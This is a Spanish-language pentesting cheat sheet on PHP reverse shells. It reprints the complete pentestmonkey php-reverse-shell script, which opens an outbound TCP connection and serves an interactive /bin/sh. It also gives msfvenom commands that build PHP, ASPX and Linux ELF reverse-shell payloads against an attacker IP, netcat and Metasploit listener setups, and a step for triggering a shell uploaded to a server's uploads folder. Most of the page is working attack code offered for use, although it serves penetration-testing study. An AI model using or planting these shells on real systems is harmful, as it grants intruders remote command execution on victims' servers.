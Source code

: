 # PHP Reverse Shell



* Payloads All The Things: REVERSE SHELL

[PayloadsAllTheThings/Reverse Shell Cheatsheet.md at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

* PentestMonkey: Shells y más
* PHP-reverse-shell (Pentestmonkey github)

[php-reverse-shell/php-reverse-shell.php at master · pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

*   Script php reverse shell de pentestmonkey:

    {% code overflow="wrap" %}
    ```php
    <?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See <http://pentestmonkey.net/tools/php-reverse-shell> if you get stuck.

    set_time_limit (0);
    $VERSION = "1.0";
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;

    //
    // Daemonise ourself if possible to avoid zombies later
    //

    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
    	// Fork and have the parent process exit
    	$pid = pcntl_fork();
    	
    	if ($pid == -1) {
    		printit("ERROR: Can't fork");
    		exit(1);
    	}
    	
    	if ($pid) {
    		exit(0);  // Parent exits
    	}

    	// Make the current process a session leader
    	// Will only succeed if we forked
    	if (posix_setsid() == -1) {
    		printit("Error: Can't setsid()");
    		exit(1);
    	}

    	$daemon = 1;
    } else {
    	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }

    // Change to a safe directory
    chdir("/");

    // Remove any umask we inherited
    umask(0);

    //
    // Do the reverse shell...
    //

    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
    	printit("$errstr ($errno)");
    	exit(1);
    }

    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );

    $process = proc_open($shell, $descriptorspec, $pipes);

    if (!is_resource($process)) {
    	printit("ERROR: Can't spawn shell");
    	exit(1);
    }

    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);

    printit("Successfully opened reverse shell to $ip:$port");

    while (1) {
    	// Check for end of TCP connection
    	if (feof($sock)) {
    		printit("ERROR: Shell connection terminated");
    		break;
    	}

    	// Check for end of STDOUT
    	if (feof($pipes[1])) {
    		printit("ERROR: Shell process terminated");
    		break;
    	}

    	// Wait until a command is end down $sock, or some
    	// command output is available on STDOUT or STDERR
    	$read_a = array($sock, $pipes[1], $pipes[2]);
    	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    	// If we can read from the TCP socket, send
    	// data to process's STDIN
    	if (in_array($sock, $read_a)) {
    		if ($debug) printit("SOCK READ");
    		$input = fread($sock, $chunk_size);
    		if ($debug) printit("SOCK: $input");
    		fwrite($pipes[0], $input);
    	}

    	// If we can read from the process's STDOUT
    	// send data down tcp connection
    	if (in_array($pipes[1], $read_a)) {
    		if ($debug) printit("STDOUT READ");
    		$input = fread($pipes[1], $chunk_size);
    		if ($debug) printit("STDOUT: $input");
    		fwrite($sock, $input);
    	}

    	// If we can read from the process's STDERR
    	// send data down tcp connection
    	if (in_array($pipes[2], $read_a)) {
    		if ($debug) printit("STDERR READ");
    		$input = fread($pipes[2], $chunk_size);
    		if ($debug) printit("STDERR: $input");
    		fwrite($sock, $input);
    	}
    }

    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);

    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
    	if (!$daemon) {
    		print "$string\\n";
    	}
    }

    ?>
    ```
    {% endcode %}

#### METERPRETER PHP REVERSE SHELL ejemplos

* MSFVENOM: creación de exploits, malware con reverse shell en ejcutables, etc.

{% code overflow="wrap" %}
```bash
sudo msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f raw > shell.php     #PHP reverse tcp payload meterpreter

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f aspx > shell.aspx     #ASPX reverse tcp para windows

sudo msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f elf --platform=linux -o payload     #Crear malware como reverse shell ejecutable elf para linux.

#Flags:
-p: payload con su ruta
-a: architecture (x86, x64)
-f: tipo de archivo (aspx, raw, elf, etc.)
-i: iteraciones
-e: encoding, Codificación
--platform= : plataforma, ej, linux
-o: output
> : enviar lo creado como salida (output) a un nuevo archivo.
```
{% endcode %}



* Listeners (oyentes)

```bash
# Netcat
nc -lnvp 4444

# Metasploit multi handler: útil para atrapar algunos shells de msfvenom
use exploit/multi/handler
#configurarlo, por ej para PHP meterpreter
set payload php/meterpreter/reverse_tcp
set LHOST <attacker_IP>
set LPORT 4444    #como en el exploit php
```

* Al ejecutar el exploit php por ej. cargado en directorio de uploads, la conexión inversa con payload meterpreter es atrapada por el multiahndler que espera ese tipo de payload, logrando una shell reverse meterpreter.

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

